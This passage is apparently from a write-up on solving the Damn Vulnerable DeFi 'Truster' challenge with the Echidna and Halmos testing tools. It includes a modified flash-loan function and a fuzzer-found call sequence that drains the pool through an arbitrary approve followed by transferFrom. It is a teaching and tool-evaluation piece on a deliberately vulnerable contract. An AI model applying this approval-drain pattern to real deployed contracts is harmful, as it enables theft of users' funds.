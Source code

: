 But we can rewrite it using the same idea. `permit()` and `flashLoan()` calls are deleted because they are uncallable anyway:
```solidity
function __flashLoan(uint256 amount, address borrower,
		    bool is_approve, bool is_transfer, bool is_tranferFrom,
		    address addr_param1, address addr_param2,
		    uint256 uint256_param1
		    )
	external
	nonReentrant
	returns (bool)
{
	uint256 balanceBefore = token.balanceOf(address(this));
	
	token.transfer(borrower, amount);
	if (is_approve == true) { // token.approve
	    token.approve(addr_param1, uint256_param1);
	}
	else if (is_transfer == true) { // token.transfer
	    token.transfer(addr_param1, uint256_param1);
	}
	else if (is_tranferFrom == true) { // token.transferFrom
	    token.transferFrom(addr_param1, addr_param2, uint256_param1);
	}
	if (token.balanceOf(address(this)) < balanceBefore) {
	    revert RepayFailed();
	}
	return true;
}
```
Run:
```javascript
$ forge build
...
$ echidna test/truster/TrusterEchidna.sol --contract TrusterEchidna --config test/truster/truster.yaml --test-limit 10000000
...
echidna_testSolved: failed!
  Call sequence:
    TrusterLenderPool.__flashLoan(0,0x0,true,false,false,0xcafe0002,0x0,40464368538165944492706300802628728086193014206184318198474034)
    DamnValuableToken.transferFrom(0x62d69f6867a0a084c6d313943dc22023bc263691,0x0,1)
```
It's alive! Well, with such changes, we managed to make fuzzing produce some kind of acceptable result.
## Conclusions
1. Sometimes, one transaction is not enough for an attack. Symbolically perform 2 transactions in such tasks generally possible for Halmos.
2. One of the main conditions for successful preparation of the symbolic test is to make sure that the maximum number of paths is covered. If there is a way to simply increase this number, it should be done!
3. If the target contract needs some changes, don't be afraid to make them. The main thing is to understand what we are doing so as not to affect the result.
4. You have to be careful with cryptographic functions, as automatic tools do not handle them well.
5. Fuzzing in Foundry and Echidna showed itself to be very weak with contracts in which there is a call to the transferred target and the corresponding data. It would seem that it should be simple: take the target from the known ones, build calldata from the selector and the necessary parameters and execute. But these tools did not cope with this. Probably, this is the reason why I did not find any solution to this problem using fuzzing on the Internet. Preparing such a contract for fuzzing looks more like a headache. And here Halmos showed itself as a very convenient tool.
## What's next?